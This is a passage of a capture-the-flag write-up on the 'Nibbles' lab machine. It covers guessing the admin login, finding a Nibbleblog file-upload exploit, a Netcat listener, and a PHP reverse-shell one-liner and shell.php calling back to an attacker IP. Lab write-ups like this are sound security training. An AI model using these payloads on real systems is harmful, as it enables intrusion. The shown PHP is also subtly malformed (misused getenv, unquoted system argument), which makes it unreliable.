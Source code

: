 A quick online search suggested the username `admin` and password `nibbles`.

Fortunately, these credentials worked, even though they are not the default credentials per the Nibbleblog documentation. However, they matched the box name! ;)

![](https://jawad.ca/images/nibbles4.png)


Our next step is to explore the admin features to identify one that allows us to upload a shell. Since it is a PHP application running on Apache, I opted to use a PHP shell.

I began by using the `searchsploit` tool to search Exploit-DB for any Nibbleblog exploits. I found `38489.rb`. Checking the [Exploit-DB page](https://www.exploit-db.com/exploits/38489){:target="_blank"}, I found the author's blog post.

```shell
kali@kali:~/Documents/Notes/CTF/Machines/nibbles$ searchsploit nibbleblog

Nibbleblog 3 - Multiple SQL Injections | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit) | php/remote/38489.rb
```

The URL was no longer working, but fortunately, it was cached on the [Wayback Machine](http://web.archive.org/web/20151113152730/http://blog.curesec.com/article/blog/NibbleBlog-403-Code-Execution-47.html){:target="_blank"}.

![](https://jawad.ca/images/nibbles5.png)

The cached page identified the URL below, which can trigger a reverse shell after uploading a web shell using the "My Image" plugin: `http://localhost/nibbleblog/content/private/plugins/my_image/image.php`

---

Let's prepare our attack VM by starting a Netcat listener on port `4444`:

```shell
kali@kali:~$ nc -lvnp 4444
```

We prepare a PHP shell using the [GTFO](https://gtfobins.github.io/gtfobins/php/#reverse-shell){:target="_blank"} cheat sheet:

```shell
php -r '$sock=fsockopen(getenv("10.10.14.91"),getenv("4444"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

We then create a PHP file that leverages the [PHP system function](https://www.php.net/manual/en/function.system.php){:target="_blank"}. This might not work if the `php.ini` configuration restricts it, but we give it a try:

```php
<?php system(php -r '$sock=fsockopen(getenv("10.10.14.91"),getenv("4444"));exec("/bin/sh -i <&3 >&3 2>&3");'); ?>
```

We build a `shell.php` file, as shown below:

![](https://jawad.ca/images/nibbles6.png)
